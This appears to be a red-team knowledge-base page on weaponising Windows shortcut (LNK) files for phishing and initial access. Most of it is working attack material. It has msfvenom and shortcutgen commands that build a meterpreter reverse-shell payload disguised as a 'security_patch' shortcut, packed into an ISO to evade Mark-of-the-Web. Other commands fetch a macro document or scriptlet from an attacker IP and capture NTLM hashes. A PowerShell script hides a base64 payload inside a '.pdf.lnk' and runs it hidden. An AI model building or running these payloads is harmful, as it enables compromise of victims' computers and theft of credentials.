 # Offensive Tools

## 01 - [[ShortcutGen|ShortcutGen]]

### 1.1 - Reverse Shell

> [!INFO]
> After selecting the custom icon ensure to append the suffix with `,0`. This will make PowerShell to treat it as a string instead of a file.

```
$ mkdir /tmp/payloads/

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o /tmp/payloads/payload.exe

$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c start /min %CD%\payload.exe" --icon "C:\Windows\System32\msi.dll,0" -o /tmp/payloads/security_patch.lnk
```

> [!IMPORTANT] Follow The Exact Steps!
> Pack it into an archive inside a disk image using [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Document File/Windows/Disk Image/Generate Disk Image/Offensive Tools/PackMyPayload/Usage|`packmypayload`]]. It's recommended when evading MOTW in order for the victim to click on the shortcut file.

```
$ packmypayload -H payload.exe --out-format zip /tmp/payloads/ archive.zip

$ packmypayload --out-format iso /tmp/payloads/ Patches.iso

$ rm archive.zip
```

### 1.2 - SSH File Transfer via Office Macro

```
$ shortcutgen -p lnk -c "C:\Windows\System32\OpenSSH\ssh.exe" -a "-o \"PermitLocalCommand=yes\" -o \"LocalCommand=scp <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\macro_document.doc\. && %AppData%\Microsoft\Templates\macro_document.doc\" <username>@<attacker_IP>" payload.lnk
```

### 1.3 - Capture NTLM Relay

```
$ shortcutgen -p lnk -i "FILESERVER" -s "Documents" -n "document.docx" -d "A hosting server." -o fileserver.lnk
```

Scriptlet file

```
$ shortcutgen -p lnk -c "C:\Windows\System32\regsvr32.exe" -a "/s /u /i://<attacker_IP>/@snare scrobj.dll" --icon "C:\Windows\System32\msi.dll,0" -o payload.lnk
```

SSH Key.

```
$ shortcutgen -p lnk -c "C:\Windows\System32\OpenSSH\ssh.exe" -a "-i \\<attacker_IP>\key.pem root@<IP>" --icon "C:\Windows\System32\msi.dll,0" -o payload.lnk
```

## 02 - PowerShell

TODO: Re-organize it somewhere

```powershell
$ErrorActionPreference = "Stop" # Halt on any error

# Define the shortcut's name and output path
$shortcutFileName = "interesting-title-to-click-on.pdf.lnk"
$shortcutOutputPath = "$Home\Desktop\$shortcutFileName"
$shortcutFallbackExecutionFolder = "$env:temp"

# Define the payload script
$payloadScript = @'
    echo "This payload/script block can be substantial, potentially several megabytes.";
    echo $env:COMPUTERNAME >> $Home\Desktop\IhaveRun.txt
'@

# Encode the payload script in Base64
$payloadBytes = [System.Text.Encoding]::Unicode.GetBytes($payloadScript)
$encodedPayload = [Convert]::ToBase64String($payloadBytes)

# Function to convert byte array to hex string
function Convert-ByteArrayToHexString($byteArray) {
    $hexString = [System.BitConverter]::ToString($byteArray) -replace "-", ""
    return $hexString
}

# Function to convert hex string to byte array
function Convert-HexStringToByteArray($hexString) {
    $hexString = $hexString.ToLower()
    return ,@($hexString -split '([a-f0-9]{2})' | ForEach-Object { if ($_) { [System.Convert]::ToByte($_, 16) } })
}

# Function to create the shortcut with embedded payload
function CreateShortcut($payloadStartPosition, $payloadLength) {
    try {
        # Carving script to extract and execute the payload
        $carvingScript = @'
$startPosition, $payloadSize = $payloadStartPosition, $payloadLength;
$shortcutFile = '$shortcutFileName';
if (-not (Test-Path \$shortcutFile)) {
    $shortcut = Get-ChildItem -Path $shortcutFallbackExecutionFolder -Filter $shortcutFile -Recurse;
    [IO.Directory]::SetCurrentDirectory($shortcut.DirectoryName);
}
$lnkStream = New-Object IO.FileStream $shortcutFile, 'Open', 'Read', 'ReadWrite';
$encodedPayloadBytes = New-Object byte[]($payloadSize);
$lnkStream.Seek(\$startPosition, [IO.SeekOrigin]::Begin);
$lnkStream.Read($encodedPayloadBytes, 0, $payloadSize);
$decodedPayload = [Convert]::FromBase64CharArray($encodedPayloadBytes, 0, $encodedPayloadBytes.Length);
$payloadScript = [Text.Encoding]::Unicode.GetString($decodedPayload);
iex $payloadScript;
'@

        # Compress and encode the carving script
        $compressedCarvingScript = $carvingScript -replace "`n", '' -replace "`r", ''
        $carvingScriptBytes = [System.Text.Encoding]::ASCII.GetBytes($compressedCarvingScript)
        $encodedCarvingScript = [Convert]::ToBase64String($carvingScriptBytes)

        # Create the shortcut
        $wshShell = New-Object -ComObject WScript.Shell
        $shortcut = $wshShell.CreateShortcut($shortcutOutputPath)
        $shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
        $shortcut.Arguments = "-WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand $encodedCarvingScript"
        $shortcut.IconLocation = "C:\Windows\System32\SHELL32.dll, 1"
        $shortcut.Save()
        Write-Host "Shortcut created successfully." -ForegroundColor "Green"
    } catch {
        Write-Host "Error creating shortcut: $_" -ForegroundColor "Red"
    }
}

try {
    # Step 1: Create a dummy shortcut to determine payload start position
    Write-Host "Creating temporary shortcut for payload position calculation." -ForegroundColor "Green"
    $payloadLength = $encodedPayload.Length
    CreateShortcut 9999 $payloadLength

    # Step 2: Locate the start position of the payload in the shortcut file
    $encoding = [System.Text.Encoding]::UTF8
    $computerName = $env:COMPUTERNAME
    $computerNameBytes = $encoding.GetBytes($computerName.ToLower())
    $shortcutBytes = [System.IO.File]::ReadAllBytes($shortcutOutputPath)
    $shortcutHexContent = (Convert-ByteArrayToHexString $shortcutBytes) -join ''
    $computerNameHex = (Convert-ByteArrayToHexString $computerNameBytes) -join ''

    $payloadStartPosition = ($shortcutHexContent.IndexOf($computerNameHex)) / 2
    Write-Host "Payload start position in shortcut file: $payloadStartPosition" -ForegroundColor "Green"

    # Step 3: Remove the dummy shortcut and create the final one
    Remove-Item $shortcutOutputPath -ErrorAction Stop
    CreateShortcut $payloadStartPosition $payloadLength

    # Step 4: Embed the actual payload into the shortcut file
    $encodedPayloadBytes = $encoding.GetBytes($encodedPayload)
    $encodedPayloadHex = Convert-ByteArrayToHexString $encodedPayloadBytes
    $shortcutBytes = [System.IO.File]::ReadAllBytes($shortcutOutputPath)
    $shortcutHexContent = (Convert-ByteArrayToHexString $shortcutBytes) -join ''
    $updatedShortcutHexContent = $shortcutHexContent -replace $computerNameHex, $encodedPayloadHex
    $updatedShortcutBytes = Convert-HexStringToByteArray $updatedShortcutHexContent

    Set-Content -Value $updatedShortcutBytes -Encoding Byte -Path $shortcutOutputPath
    Write-Host "Payload successfully embedded into the shortcut file." -ForegroundColor "Green"
} catch {
    Write-Host "An error occurred: $_" -ForegroundColor "Red"
}
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Windows/Manual|Manual: Windows Shortcut File]]

### Source Repositories

- [strayge: pylnk](https://github.com/strayge/pylnk)

- [rvrsh3ll: `Create-HotKeyLNK.ps1`](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)

### Bordergate

- [Bordergate: Disguising Client Side Payloads](https://www.bordergate.co.uk/disguising-client-side-payloads/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### DMCXBLUE

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Assume Breach

- [Assume Breach: Using LNK Files To Bypass Applocker](https://assume-breach.medium.com/home-grown-red-team-using-lnk-files-to-bypass-applocker-3fb1ecae291f)

- [Assume Breach: LNK Phishing Revisited In 2023](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-revisited-in-2023-364daf70a06a)

- [Assume Breach: LNK Phishing In 2023 Revisited…Again](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-in-2023-revisited-again-2b8c885b9836)

### RedSiege

- [RedSiege: SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### B4ckdoor

- [b4ckdoor: Is Macro Phishing Dead in 2024? — A Scheduled Task for Initial Access and Persistence using macro by Abusing Shortcut Files and SSH](https://b4ckdoor.medium.com/is-macro-phishing-dead-in-2024-56b7b4473a29)

### BadOption

- [BadOption: ZipLink - Combine Zips and Lnk for fun and profit](https://badoption.eu/blog/2023/09/28/ZipLink.html)

### Uperesia

- [Uperesia: Booby Trap a Shortcut with a Backdoor](https://www.uperesia.com/booby-trapped-shortcut)